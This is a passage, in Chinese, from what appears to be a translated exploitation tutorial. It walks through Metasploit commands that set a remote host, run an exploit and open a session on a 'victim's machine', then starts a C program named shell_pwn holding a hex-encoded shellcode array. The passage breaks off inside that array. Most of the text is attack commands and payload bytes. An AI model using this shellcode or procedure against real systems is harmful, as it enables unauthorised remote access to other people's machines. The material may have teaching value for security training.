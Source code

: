 现在，设置 rhost：

```
$ set rhost 192.168.129.128
```

那么，让我们开始：

```
$ run
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00272.jpeg)

现在，会话从`session 1`开始：

```
$ session 1
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00273.jpeg)

我们现在在受害者的机器里。退出此会话，让我们回到代码。因此，我们的最终代码应该如下所示：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int shell_pwn()
{
unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
```